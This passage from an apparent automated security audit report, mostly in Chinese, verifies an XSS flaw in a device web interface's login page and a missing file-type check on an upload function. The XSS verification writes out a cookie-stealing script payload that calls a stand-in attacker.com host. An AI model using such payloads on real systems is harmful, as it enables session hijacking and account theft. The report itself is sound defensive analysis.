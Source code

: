   ```
              } else {}
          }
      };
      // ...
  }
  \`\`\`
  ```
- **备注：** This vulnerability requires the server to reflect the username in error responses without proper sanitization, which is a common practice. The attack depends on user interaction (entering a malicious username) and a failed login attempt. While the user is a non-root user, session hijacking could lead to unauthorized access to the user's privileges. Further verification should include testing the 'dws/api/Login' endpoint with malicious input to confirm server-side reflection. Additional analysis of other pages may reveal more severe vulnerabilities, but this is the most exploitable issue found in 'login.asp'.

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `Medium`
- **详细原因：** 经过严格验证，安全警报描述准确。证据如下：1) 在login.asp的check函数（约第100-150行）中，用户名输入（$('#username').val()）直接用于构建AJAX请求参数（param.arg = 'id='+username+'&password='+digs），攻击者可完全控制此输入；2) 在pandoraBox.js的json_ajax函数（约第600-650行）中，错误回调函数使用document.write(xhr.responseText)直接写入服务器响应，无任何消毒措施；3) 当用户使用恶意用户名登录失败时，服务器可能返回包含未消毒用户名的错误响应，触发XSS执行。攻击者模型为未经身份验证的远程攻击者，通过社会工程诱使用户提交恶意用户名。完整攻击链：攻击者构造恶意用户名（如<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>）→ 用户被诱骗输入该用户名登录 → 登录失败触发服务器错误响应 → json_ajax错误回调执行document.write → 恶意脚本执行，窃取会话cookie（uid、id、key）→ 攻击者使用cookie劫持账户。漏洞风险为中等，因需要用户交互但影响严重（账户完全劫持）。PoC可重现：使用上述载荷测试登录功能，观察cookie被外泄。

## 验证指标

- **验证时长：** 204.21 秒
- **Token 使用量：** 302754

---

## 原始信息

- **文件/目录路径：** `wa_www/file_access.asp`
- **位置：** `file_access.asp:btn_upload 函数和 dlg_upload_ok 函数（约行 450-500）`
- **描述：** 文件上传功能通过 '/dws/api/UploadFile' API 处理，但客户端代码没有对文件类型进行验证，仅依赖后端检查。攻击者可能上传恶意文件（如 webshell），如果后端没有严格限制文件类型或路径，可能导致远程代码执行。触发条件：攻击者使用上传功能提交恶意文件，并诱使用户或系统访问该文件。利用方式取决于后端配置，但基于客户端代码，缺少客户端验证增加了风险。
- **代码片段：**
  ```
  function btn_upload()
  {
      $('#wfa_file').val('');
      $('#wfa_tok').val('');
      $('#upload_form').show();
      upload_count = 0;
      clearInterval(polling_id);
      $('#dlg_upload').dialog('open');
  }
  
  function dlg_upload_ok(obj)
  {
      if ($('#wfa_file').val() == '') {
          alert('Select a file');
          return;
      }
      var rand = gen_rand_num(32);//generate 32 bytes random number
      var arg1 = '/dws/api/UploadFile?id='+session_id+rand;
      $('#wfa_id').val(session_id);
      $('#wfa_path').val(cur_path);
  ```